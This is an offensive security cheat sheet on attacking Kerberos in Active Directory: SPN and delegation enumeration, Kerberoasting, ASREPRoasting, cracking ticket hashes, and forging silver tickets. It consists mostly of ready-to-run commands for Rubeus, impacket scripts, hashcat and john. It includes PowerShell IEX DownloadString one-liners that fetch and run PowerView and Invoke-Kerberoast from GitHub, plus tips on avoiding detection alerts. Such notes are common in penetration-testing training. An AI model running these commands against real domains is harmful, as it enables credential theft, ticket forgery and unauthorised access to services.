 # Kerberos Info Gathering
## Query SPNs
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   
Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   
Note: setspn command generates alerts from MDI!   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Ticket
Get krb ticket for user with known password (e.g. via socks proxy):   
`.\Rubeus.exe asktgt /user:jdoe /password:<CUT> /domain:lab.local /dc:10.0.0.4 /ptt`   
Using native Powershell:   
```Powershell
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/websrv.domain.local"
```
# Kerberos Attacks
## Kerberoasting
### From Windows
Against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
Against single SPN, using base64 kirbi which was obtained via asktgt (Note: portnumber in spn - e.g. MSSQLSvc/server1.lab.local,1433 - seems to break Rubeus):   
`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3 /ticket:doIFMD[...]`   

Using native PowerShell:
```powershell
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/websrv.domain.local"  
```
Using Powerview:   
``` 
IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"))
Request-SPNTicket -SPN "<SPN>" -Format Hashcat
```     
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   

### From Linux
Using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Kerberoast all SPNs (NOT OPSEC!!!):   
`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`   
Another tool:   
 - https://github.com/ShutdownRepo/targetedKerberoast   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   

## Silver Ticket Attack
If you have the plaintext password or the NT hash of a service account, you can create Kerberos Service tickets for this service in the name of any user (as long as PAC validation is not enabled).

### Linux
```
ticketer.py -nthash 077CCCC23F8AB7031BEEFB70C694A49 -domain-sid S-1-5-21-875478684-1579768486-654964636 -domain dumpsterfire.local -spn MSSQLSvc/server.dumpsterfire.local:SQLINSTANCE1 targetuser
export KRB5CCNAME=/home/kali/targetuser.ccache
```
Use with e.g.:
`mssqlclient.py dumpsterfire.local/targetuser@server.dumpsterfire.local -k -no-pass`

### Windows
```
.\Rubeus.exe silver /service:MSSQLSvc/server.dumpsterfire.local /rc4:077CCCC23F8ABEEF26A3B70C694A49 /sid:S-1-5-21-875478684-2579768486-654964636 /user:targetuser /domain:dumpsterfire.local /ptt 
```
With `/ptt` the ticket is automatically imported into the local Kerberos cache and can be used to connect to the target service.

# Other stuff
Change user or groups in Kerberos ticket, Crack requested service tickets:   
https://github.com/nidem/kerberoast/   

## SPNs which can be used for code exec
```
MSSQLSvc -> xp_cmdshell
TERMServ -> RDP 
WSMAN+HTTP -> PS remoting
HOST+HTTP -> WinRM
HOST -> Task scheduler
CIFS -> psexec, etc. (SMB)
```
